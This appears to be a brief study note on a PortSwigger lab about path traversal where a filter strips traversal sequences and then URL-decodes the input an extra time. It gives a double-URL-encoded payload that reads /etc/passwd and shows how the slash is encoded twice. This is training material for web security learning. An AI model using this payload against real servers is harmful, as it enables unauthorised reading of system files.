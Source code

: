 # File path traversal, traversal sequences stripped with superfluous URL-decode

Source: Portswigger
Tools: Burpsuite
Technique: Path Traversal
Fields: Web

- ..%252f..%252f..%252fetc/passwd
- encode / → %2f → %252f